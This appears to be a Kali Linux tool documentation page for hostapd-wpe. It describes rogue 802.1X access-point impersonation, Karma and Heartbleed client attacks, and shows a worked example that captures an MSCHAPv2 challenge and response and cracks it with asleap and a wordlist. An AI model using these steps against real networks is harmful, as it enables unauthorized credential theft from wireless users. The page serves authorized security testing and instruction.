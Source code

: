```yaml
---
Title: hostapd-wpe
Homepage: https://github.com/aircrack-ng/aircrack-ng/tree/master/patches/wpe
Repository: https://gitlab.com/kalilinux/packages/hostapd-wpe
Architectures: any
Version: 2.9+git20190816-0kali2
Metapackages: kali-linux-everything kali-tools-802-11 kali-tools-wireless 
Icon: /images/kali-tools-icon-missing.svg
PackagesInfo: |
 ### hostapd-wpe
 
  This package contains hostapd modified with hostapd-wpe.patch.
  It implements IEEE 802.1x Authenticator and Authentication
  Server impersonation attacks to obtain client credentials,
  establish connectivity to the client, and launch other attacks
  where applicable.
   
  hostapd-wpe supports the following EAP types for impersonation:
     1. EAP-FAST/MSCHAPv2 (Phase 0)
     2. PEAP/MSCHAPv2
     3. EAP-TTLS/MSCHAPv2
     4. EAP-TTLS/MSCHAP
     5. EAP-TTLS/CHAP
     6. EAP-TTLS/PAP
   
  Once impersonation is underway, hostapd-wpe will return an
  EAP-Success message so that the client believes they are connected
  to their legitimate authenticator.
   
  For 802.11 clients, hostapd-wpe also implements Karma-style gratuitous
  probe responses. Inspiration for this was provided by JoMo-Kun's
  patch for older versions of hostapd.
   
         http://www.foofus.net/?page_id=115
   
  hostapd-wpe also implements CVE-2014-0160 (Heartbleed) attacks against
  vulnerable clients. Inspiration for this was provided by the Cupid PoC:
   
         https://github.com/lgrangeia/cupid
   
  hostapd-wpe logs all data to stdout and hostapd-wpe.log
 
 **Installed size:** `1.70 MB`  
 **How to install:** `sudo apt install hostapd-wpe`  
 
 {{< spoiler "Dependencies:" >}}
 * libc6 
 * libnl-3-200 
 * libnl-genl-3-200 
 * libsqlite3-0 
 * libssl1.0.2 
 * make-guile | make
 * openssl
 {{< /spoiler >}}
 
 ##### hostapd-wpe
 
 
 ```
 root@kali:~# hostapd-wpe --help
 hostapd-wpe: invalid option -- '-'
 hostapd-WPE v2.9
 User space daemon for IEEE 802.11 AP management,
 IEEE 802.1X/WPA/WPA2/EAP/RADIUS Authenticator
 Copyright (c) 2002-2019, Jouni Malinen <j@w1.fi> and contributors
 -----------------------------------------------------
 WPE (Wireless Pwnage Edition)
 This version has been cleverly modified to target
 wired and wireless users.
 Twitter: @aircrackng
 
 usage: hostapd-wpe [-hdBKtvskc] [-P <PID file>] [-e <entropy file>] \
          [-g <global ctrl_iface>] [-G <group>]\
          [-i <comma-separated list of interface names>]\
          <configuration file(s)>
 
 options:
    -h   show this usage
    -d   show more debug messages (-dd for even more)
    -B   run daemon in the background
    -e   entropy file
    -g   global control interface path
    -G   group for control interfaces
    -P   PID file
    -K   include key data in debug messages
    -i   list of interface names to use
    -S   start all the interfaces synchronously
    -t   include timestamps in some debug messages
    -v   show hostapd version
 
 
  WPE Options -------------------
        (credential logging always enabled)
    -s   Return Success where possible
    -c   Cupid Mode (Heartbleed clients)
 
    -k   Karma Mode (Respond to all probes)
 
 ```
 
 - - -
 
 ##### hostapd-wpe_cli
 
 
 ```
 root@kali:~# hostapd-wpe_cli -h
 hostapd_cli v2.9
 Copyright (c) 2004-2019, Jouni Malinen <j@w1.fi> and contributors
 
 usage: hostapd_cli [-p<path>] [-i<ifname>] [-hvB] [-a<path>] \
                    [-P<pid file>] [-G<ping interval>] [command..]
 
 Options:
    -h           help (show this usage text)
    -v           shown version information
    -p<path>     path to find control sockets (default: /var/run/hostapd-wpe)
    -s<dir_path> dir path to open client sockets (default: /var/run/hostapd-wpe)
    -a<file>     run in daemon mode executing the action file based on events
                 from hostapd
    -B           run a daemon in the background
    -i<ifname>   Interface to listen on (default: first interface found in the
                 socket path)
 
 commands:
   ping = pings hostapd
   mib = get MIB variables (dot1x, dot11, radius)
   relog = reload/truncate debug log output file
   status = show interface status info
   sta <addr> = get MIB variables for one station
   all_sta = get MIB variables for all stations
   list_sta = list all stations
   new_sta <addr> = add a new station
   deauthenticate <addr> = deauthenticate a station
   disassociate <addr> = disassociate a station
   signature <addr> = get taxonomy signature for a station
   sa_query <addr> = send SA Query to a station
   wps_pin <uuid> <pin> [timeout] [addr] = add WPS Enrollee PIN
   wps_check_pin <PIN> = verify PIN checksum
   wps_pbc = indicate button pushed to initiate PBC
   wps_cancel = cancel the pending WPS operation
   wps_nfc_tag_read <hexdump> = report read NFC tag with WPS data
   wps_nfc_config_token <WPS/NDEF> = build NFC configuration token
   wps_nfc_token <WPS/NDEF/enable/disable> = manager NFC password token
   wps_ap_pin <cmd> [params..] = enable/disable AP PIN
   wps_config <SSID> <auth> <encr> <key> = configure AP
   wps_get_status = show current WPS status
   disassoc_imminent = send Disassociation Imminent notification
   ess_disassoc = send ESS Dissassociation Imminent notification
   bss_tm_req = send BSS Transition Management Request
   get_config = show current configuration
   help = show this usage help
   interface [ifname] = show interfaces/select interface
   fst <params...> = send FST-MANAGER control interface command
   raw <params..> = send unprocessed command
   level <debug level> = change debug level
   license = show full hostapd_cli license
   quit = exit hostapd_cli
   set <name> <value> = set runtime variables
   get <name> = get runtime info
   set_qos_map_set <arg,arg,...> = set QoS Map set element
   send_qos_map_conf <addr> = send QoS Map Configure frame
   chan_switch <cs_count> <freq> [sec_channel_offset=] [center_freq1=]
     [center_freq2=] [bandwidth=] [blocktx] [ht|vht]
     = initiate channel switch announcement
   hs20_wnm_notif <addr> <url>
     = send WNM-Notification Subscription Remediation Request
   hs20_deauth_req <addr> <code (0/1)> <Re-auth-Delay(sec)> [url]
     = send WNM-Notification imminent deauthentication indication
   vendor <vendor id> <sub command id> [<hex formatted data>]
     = send vendor driver command
   enable = enable hostapd on current interface
   reload = reload configuration for current interface
   disable = disable hostapd on current interface
   update_beacon = update Beacon frame contents
   
   erp_flush = drop all ERP keys
   log_level [level] = show/change log verbosity level
   pmksa  = show PMKSA cache entries
   pmksa_flush  = flush PMKSA cache
   set_neighbor <addr> <ssid=> <nr=> [lci=] [civic=] [stat]
     = add AP to neighbor database
   remove_neighbor <addr> <ssid=> = remove AP from neighbor database
   req_lci <addr> = send LCI request to a station
   req_range  = send FTM range request
   driver_flags  = show supported driver flags
   accept_acl =Add/Delete/Show/Clear accept MAC ACL
   deny_acl =Add/Delete/Show/Clear deny MAC ACL
   poll_sta <addr> = poll a STA to check connectivity with a QoS null frame
   req_beacon <addr> [req_mode=] <measurement request hexdump>  = send a Beacon report request to a station
   reload_wpa_psk = reload wpa_psk_file only
 ```
 
 - - -
 
---
```

{{% hidden-comment "<!--Do not edit anything above this line-->" %}}

## hostapd-wpe Usage Example

Update your Kali installation, install hostapd-wpe if not already present:

```
root@kali:~# apt update
root@kali:~# apt install hostapd-wpe
```

Once installed, configure AP properties by editing `/etc/hostapd-wpe/hostapd-wpe.conf`:

```
root@kali:~# nano /etc/hostapd-wpe/hostapd-wpe.conf
```

Kill network-manager using airmon-ng

```
root@kali:~# airmon-ng check kill
```

Start hostapd-wpe. A wireless AP will appear. Passwords of users connecting and authenticating to this network will be printed to the console.

```
root@kali:~# hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
Configuration file: /etc/hostapd-wpe/hostapd-wpe.conf
Using interface wlan0 with hwaddr c4:e9:84:17:ff:c8 and ssid "hostapd-wpe"
wlan0: interface state UNINITIALIZED>ENABLED
wlan0: AP-ENABLED
wlan0: STA ac:fd:ec:78:72:bd IEEE 802.11: authenticated
wlan0: STA ac:fd:ec:78:72:bd IEEE 802.11: associated (aid 1)
wlan0: CTRL-EVENT-EAP-STARTED ac:fd:ec:78:72:bd
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25

mschapv2: Sat Nov 12 16:04:03 2016
username: me
challenge: 8e:0e:9d:0b:5a:3f:f5:23
response: 34:f8:42:4d:16:c7:2d:69:cc:38:10:d4:cf:71:f7:83:37:68:d8:8a:e9:86:f2:67
jtr NETNTLM: me:$NETNTLM$8e0e9d0b5a3ff523$34f8424d16c72d69cc3810d4cf71f7833768d88ae986f267

wlan0: CTRL-EVENT-EAP-FAILURE ac:fd:ec:78:72:bd
wlan0: STA ac:fd:ec:78:72:bd IEEE 802.1X: authentication failed - EAP type: 0 (unknown)
wlan0: STA ac:fd:ec:78:72:bd IEEE 802.1X: Supplicant used different EAP type: 25 (PEAP)
wlan0: STA ac:fd:ec:78:72:bd IEEE 802.11: disassociated
wlan0: STA ac:fd:ec:78:72:bd IEEE 802.11: deauthenticated due to local deauth request
wlan0: AP-DISABLED
nl80211: deinit ifname=wlan0 disabled_11b_rates=0
root@kali:~#
```

Once a challenge and responce are obtained, crack them using asleap, together with a password dictionary file.

```
root@kali:~# zcat /usr/share/wordlists/rockyou.txt.gz | asleap -C 8e:0e:9d:0b:5a:3f:f5:23 -R 34:f8:42:4d:16:c7:2d:69:cc:38:10:d4:cf:71:f7:83:37:68:d8:8a:e9:86:f2:67 -W -
asleap 2.2 - actively recover LEAP/PPTP passwords. <jwright@hasborg.com>
Using STDIN for words.
hash bytes: 586c
NT hash: 8846f7eaee8fb117ad06bdd830b7586c
password: password
```
